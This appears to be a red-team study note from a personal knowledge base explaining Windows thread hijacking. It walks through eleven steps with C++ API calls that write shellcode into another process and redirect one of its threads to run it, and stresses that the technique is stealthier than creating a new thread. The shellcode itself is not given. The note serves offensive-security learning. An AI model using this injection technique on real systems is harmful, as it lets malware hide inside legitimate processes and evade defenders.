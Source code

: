 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/images/abusing-process-components/"}
---
```


~ [[cards/red-team/images/Abusing Windows Internals\|Abusing Windows Internals]]
### Introduction
---
Thread hijacking is a technique used by attackers to inject code (shellcode) into an existing **thread** of a legitimate process, then **redirect** that thread to execute their **malicious code** instead.

It is much stealthier than creating a new thread such as `CreateRemoteThread` because you'r hijacking an existing thread, making it harder to detect.

A _thread_ is like a **worker** inside a program (restuarant) that performs a specific task in order to ensure the program (restaurant) runs smoothly.
## Steps
---
**Step 1: Open the Target Process**

```cpp
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
```

- Locate the **target** process by it's PID.
- Use `OpenProcess` to get a handle to the process with **full access** (`PROCESS_ALL_ACCESS`) so we can write to it and manipulate its memory/threads.

**Step 2: Allocate Memory in the Target Process**

```cpp
PVOID remoteBuffer = VirtualAllocEx(
    hProcess,
    NULL,
    sizeof shellcode,
    MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
);
```

- Reserves and commits memory within the **remote process**.

- The allocated memory will store the **malicious shellcode**, hence we use `sizeof shellcode`.

- `PAGE_EXECUTE_READWRITE` allows the code to be executed, read, and written.

**Step 3: Write Shellcode to Allocated Memory**

```cpp
WriteProcessMemory(
    hProcess,
    remoteBuffer,
    shellcode,
    sizeof shellcode,
    NULL
);
```

Inject the **shellcode** (malicious payload) into the **allocated memory** inside the target process.

**Step 4: Take a Snapshot of All Threads**

```cpp
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
```

- Takes a **snapshot of all threads** running on the system.
    
- Needed to identify which thread **belongs** to the target process.

**Step 5: Find a Thread from the Target Process**

```cpp
THREADENTRY32 threadEntry;
Thread32First(hSnapshot, &threadEntry);

while (Thread32Next(hSnapshot, &threadEntry)) {
    if (threadEntry.th32OwnerProcessID == processId) {
        // Found thread belonging to our target process 
        // The code inside this if condition is at step 6
    }
}
```

Loops through all threads and checks if any of them belong to the target process (`th32OwnerProcessID` == target PID).

**Step 6: Open the Target Thread**

```cpp
HANDLE hThread = OpenThread(
    THREAD_ALL_ACCESS,
    FALSE,
    threadEntry.th32ThreadID
);
```

- Opens the **target thread** found in the previous step.

- Grants **full control** over the thread (read, write, suspend, etc.).

**Step 7: Suspend the Target Thread**

```cpp
SuspendThread(hThread);
```

Freezes the thread so we can **safely manipulate** its execution context.

**Step 8: Get the Thread's Context**

```cpp
CONTEXT context;
context.ContextFlags = CONTEXT_FULL;

GetThreadContext(hThread, &context);
```

- Retrieves the **execution context** of the thread.
    
- This includes register values like the **instruction pointer (RIP)**.

**Step 9: Set RIP to Our Shellcode**

```cpp
context.Rip = (DWORD_PTR)remoteBuffer;
```

- **Modifies the Instruction Pointer (RIP)** to point to our **malicious shellcode**.
    
- RIP determines the next instruction the CPU will execute.

**Step 10: Apply the Modified Context**

```cpp
SetThreadContext(hThread, &context);
```

- **Writes back** the modified thread context.
    
- The thread will now execute the shellcode once resumed.

**Step : Resume Thread**

```cpp
ResumeThread(hThread);
```

- Resumes the previously suspended thread.
    
- Execution jumps to our shellcode in the remote process.

### Prerequisite in order to work
---
- **High privileges** especially `PROCESS_ALL_ACCESS` and `THREAD_ALL_ACCESS`
- Target process must allow memory allocation and thread manipulation (i.e., not protected by kernel drivers like anti-virus)
- Architecture match: injector must match target process — both x86 or both x64
